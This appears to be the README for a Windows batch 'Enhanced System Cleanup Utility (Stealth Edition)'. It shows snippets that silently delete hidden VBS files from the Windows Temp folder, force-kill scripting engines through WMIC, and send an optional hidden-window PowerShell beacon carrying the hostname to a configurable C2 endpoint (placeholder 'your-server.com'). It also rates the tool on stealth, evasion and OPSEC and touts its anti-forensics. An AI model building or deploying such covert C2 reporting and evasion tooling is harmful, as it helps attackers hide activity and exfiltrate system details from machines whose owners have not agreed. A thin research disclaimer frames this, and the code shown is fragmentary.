 ```markdown
# Enhanced System Cleanup Utility (Stealth Edition)

![Batch Script](https://img.shields.io/badge/language-Batch-blue)
![System Utility](https://img.shields.io/badge/type-system_cleanup-green)
![Version](https://img.shields.io/badge/version-1.3_Stealth-orange)

## ⚠️ Advanced System Tool - Use With Extreme Caution
This script performs deep system cleanup operations with "stealth" characteristics. It combines legitimate maintenance tasks with features commonly seen in security research tools.

```plaintext
███████╗███╗   ██╗██╗  ██╗ ██████╗ ███████╗
██╔════╝████╗  ██║██║  ██║██╔════╝ ██╔════╝
█████╗  ██╔██╗ ██║███████║██║  ███╗█████╗  
██╔══╝  ██║╚██╗██║██╔══██║██║   ██║██╔══╝  
███████╗██║ ╚████║██║  ██║╚██████╔╝███████╗
╚══════╝╚═╝  ╚═══╝╚═╝  ╚═╝ ╚═════╝ ╚══════╝
Stealth Edition v1.3
```

## 📌 Core Functionality

### 1. **VBScript Cleaner**
```bat
for %%F in ("%TARGET_TEMP_PATH%\*.vbs") do (
    attrib -s -h "%%F" >nul 2>&1
    del /f /q "%%F" >nul 2>&1
)
```
- Removes all VBS files from `C:\Windows\Temp`
- Strips system/hidden attributes before deletion
- Operates silently without user feedback

### 2. **Scripting Engine Terminator**
```bat
for %%P in (wscript.exe cscript.exe) do (...)
```
- Force-kills all running instances of:
  - `wscript.exe`
  - `cscript.exe`
- Uses WMIC for process termination (avoids standard taskkill)

### 3. **C2 Reporting Module (Optional)**
```bat
powershell -NoP -W Hidden -C "$u='!C2_PAYLOAD!'...
```
- When enabled, sends beacon to remote server
- Reports:
  - Hostname (`%COMPUTERNAME%`)
  - Script execution status
  - Custom identifier ("EClean")
- Uses PowerShell with hidden window

## ⚙️ Configuration Options
```bat
set "TARGET_TEMP_PATH=C:\Windows\Temp"   ; Cleanup directory
set "VBS_PATTERN=*.vbs"                 ; File targeting pattern
set "LOG_VERBOSE=false"                 ; Show operation details
set "C2_URL=http://your-server.com/report" ; Reporting endpoint
set "ENABLE_C2=false"                   ; Enable/disable C2 comms
```

## 🛡️ Security Features
- **Admin Check**: Fails gracefully without admin privileges
- **Stealth Operations**: 
  - No console output by default
  - Hidden PowerShell execution
  - WMIC instead of taskkill
- **Attribute Stripping**: Removes system/hidden flags before deletion

## 🔧 Usage
1. **Basic Cleanup**:
   ```cmd
   EnhancedCleanup.bat
   ```

2. **Verbose Mode** (Adds logging):
   ```bat
   set "LOG_VERBOSE=true"
   ```

3. **Enable Reporting**:
   ```bat
   set "ENABLE_C2=true"
   set "C2_URL=http://your-actual-endpoint.com"
   ```

## ⚠️ Critical Notes
1. **System Impact**:
   - Terminates running script processes (may disrupt legitimate operations)
   - Permanent deletion of VBS files (no recovery)

2. **Stealth Classification**:
   - Uses anti-forensics techniques (attribute stripping)
   - Hidden PowerShell execution
   - Security software may flag as suspicious

3. **C2 Communication**:
   - Only enable with explicit permission
   - Requires custom endpoint configuration
   - Transmits identifiable system information

## ⚖️ Legal Disclaimer
```plaintext
THIS TOOL IS FOR SECURITY RESEARCH AND AUTHORIZED SYSTEM ADMINISTRATION ONLY.
UNAUTHORIZED USE MAY VIOLATE:
- Computer Fraud and Abuse Act (CFAA)
- General Data Protection Regulation (GDPR)
- Local cybersecurity legislation

The author disclaims all liability for illegal or unethical use.
```

## 📊 Script Rating (Security Research Perspective)
| Category          | Score (1-10) | Notes                          |
|-------------------|--------------|--------------------------------|
| Stealth           | 8/10         | Hidden ops, WMIC, attrib strip |
| System Impact     | 6/10         | Targets specific file/process  |
| Evasion           | 7/10         | Avoids common detection vectors|
| Functionality     | 5/10         | Limited scope but effective    |
| OPSEC             | 4/10         | C2 uses plain HTTP             |
| **Overall**       | **6/10**     | Effective research tool        |

**Created by Donwell | Stealth Edition v1.3 | For Authorized Research Only**
```

> 🔐 **Ethical Notice**: This documentation assumes responsible use in controlled environments for security research purposes. Always obtain proper authorization before testing on any system.
